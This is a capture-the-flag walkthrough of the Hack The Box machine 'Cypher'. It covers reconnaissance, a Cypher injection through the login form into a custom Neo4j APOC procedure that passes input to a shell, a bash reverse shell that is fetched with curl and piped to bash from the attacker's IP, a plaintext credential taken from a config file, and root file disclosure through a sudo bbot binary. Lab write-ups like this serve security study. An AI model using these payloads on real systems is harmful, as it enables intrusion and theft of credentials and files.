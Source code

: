 ## Recon
-> nmap :
``` bash
╰─ nmap -sC -sV -p- -Pn --min-rate 10000 10.10.11.57 -oN Cypher-nmap 
Nmap scan report for 10.10.11.57
Host is up (0.093s latency).
Not shown: 62691 closed tcp ports (conn-refused), 2842 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 be:68:db:82:8e:63:32:45:54:46:b7:08:7b:3b:52:b0 (ECDSA)
|_  256 e5:5b:34:f5:54:43:93:f8:7e:b6:69:4c:ac:d6:3d:23 (ED25519)
80/tcp open  http    nginx 1.24.0 (Ubuntu)
|_http-title: Did not follow redirect to http://cypher.htb/
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.24.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

-> Add `cypher.htb` to `/etc/hosts`:
`10.10.11.57 cypher.htb`

### source code :
i noticed in the source code a comment to make into consideration for later `TODO: don't store user accounts in neo4j` 
:
```javascript
<script>
    // TODO: don't store user accounts in neo4j
    function doLogin(e) {
      e.preventDefault();
      var username = $("#usernamefield").val();
```

-> This gives me the idea that neo4j handles backend authentication process

-> When i try an xss paylod i get this error :
`<IMG SRC= onmouseover="alert('xxs')">`
![[Pasted image 20250423223733.png]]
-> Indicating a **Cypher Injection** (injection for GQL), where there is a cypher query to fetch data like this :
```GQL
MATCH (u:USER) -[:SECRET]-> (h:SHA1) WHERE u.name = '<USER_INPUT>' RETURN h.value AS hash
```

### directory fuzzing :


```bash
╰─ gobuster dir -u cypher.htb -w /usr/share/dirb/wordlists/directory-list-2.3-medium.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://cypher.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirb/wordlists/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index                (Status: 200) [Size: 4562]
/about                (Status: 200) [Size: 4986]
/login                (Status: 200) [Size: 3671]
/demo                 (Status: 307) [Size: 0] [--> /login]
/api                  (Status: 307) [Size: 0] [--> /api/docs]
/testing              (Status: 301) [Size: 178] [--> http://cypher.htb/testing/]
```

![[Pasted image 20250423230317.png]]

#### APOC 
->Neo4j supports the APOC (Awesome Procedures on Cypher) Core library. The APOC Core library provides access to user-defined procedures and functions which extend the use of the [Cypher query language](https://neo4j.com/docs/cypher-manual/current/introduction/) into areas such as data integration, graph algorithms, and data conversion.


-> In the jar we find :
```java
public class CustomFunctions {  
    @Procedure(name = "custom.getUrlStatusCode", mode = Mode.READ)  
    @Description("Returns the HTTP status code for the given URL as a string")  
    public Stream<StringOutput> getUrlStatusCode(@Name("url") String url) throws Exception {  
        if (!url.toLowerCase().startsWith("http://") && !url.toLowerCase().startsWith("https://")) {  
            url = "https://" + url;  
        }  
        String[] command = {"/bin/sh", "-c", "curl -s -o /dev/null --connect-timeout 1 -w %{http_code} " + url};  
        System.out.println("Command: " + Arrays.toString(command));  
        Process process = Runtime.getRuntime().exec(command);  
        BufferedReader inputReader = new BufferedReader(new InputStreamReader(process.getInputStream()));  
        BufferedReader errorReader = new BufferedReader(new InputStreamReader(process.getErrorStream()));  
        StringBuilder errorOutput = new StringBuilder();
```

-> This code enables us to do a remote code execution 
### shell creation

First create a shell script to upload to the server :
```bash
echo "/bin/bash -i >& /dev/tcp/10.10.16.86/4444 0>&1" > shell.sh
```

-> Use a python http server to upload it 
```bash
python3 -m http.server 80
```
-> Run a nc listner in the declared port in shell.sh
```bash
nc -lvnp 4444
```

-> In burpsuite use below to gain foothold to the system (upload the shell and execute it)

```json
"username":"haha' return h.value as a UNION CALL custom.getUrlStatusCode(\"cypher.com; curl 10.10.16.86/shell.sh|bash;#\") YIELD statusCode AS a RETURN a;//","password":"test"
```

-> Here we get that the shell is uploaded :
```bash
╰─ sudo python3 -m http.server 80

[sudo] password for med: 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.57 - - [24/Apr/2025 00:10:40] "GET /shell.sh HTTP/1.1" 200 -
```

-> And we have a shell :
```bash
╰─ nc -lvnp 4444

Listening on 0.0.0.0 4444
Connection received on 10.10.11.57 40898
bash: cannot set terminal process group (1446): Inappropriate ioctl for device
bash: no job control in this shell
neo4j@cypher:/$ 
```

-> We find a gfile called `bbot_preset.yml`

```bash
neo4j@cypher:/home/graphasm$ cat bbot_preset.yml
cat bbot_preset.yml
targets:
  - ecorp.htb

output_dir: /home/graphasm/bbot_scans

config:
  modules:
    neo4j:
      username: neo4j
      password: cU4btyib.20xtCMCXkBmerhK
```

-> We connect using ssh to `graphasm` and we got user flag :
```bash
╰─ ssh graphasm@cypher.htb
graphasm@cypher.htb's password: 

graphasm@cypher:~$ ls
bbot_preset.yml  user.txt
```

-> When we use `sudo -l` to see the abilities of our user we fin :
```bash
graphasm@cypher:~$ sudo -l
Matching Defaults entries for graphasm on cypher:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User graphasm may run the following commands on cypher:
    (ALL) NOPASSWD: /usr/local/bin/bbot

```
-> Our user can run an app caller bbot (which is an osint app)
-> After a bit of research i found a way to get around it and get the flag inspired by this amazing article : https://azraeldeathangel.medium.com/privilege-escalation-in-linux-via-bbot-binary-92558b4c7f30

-> where i will abuse the yara functionnality by specifying the root flag as a yara rule, the binary bbot then will display it's content in the debug information like this :

```bash
graphasm@cypher:~$ sudo /usr/local/bin/bbot -cy /root/root.txt --debug
  ______  _____   ____ _______
 |  ___ \|  __ \ / __ \__   __|
 | |___) | |__) | |  | | | |
 |  ___ <|  __ <| |  | | | |
 | |___) | |__) | |__| | | |
 |______/|_____/ \____/  |_|
 BIGHUGE BLS OSINT TOOL v2.1.0.4939rc

www.blacklanternsecurity.com/bbot
...

[DBUG] internal.excavate: Successfully loaded custom yara rules file [/root/root.txt]
[DBUG] internal.excavate: Final combined yara rule contents: XXXXXXXXXXXXXXXXXXXXXXXXXXXXX
...
```
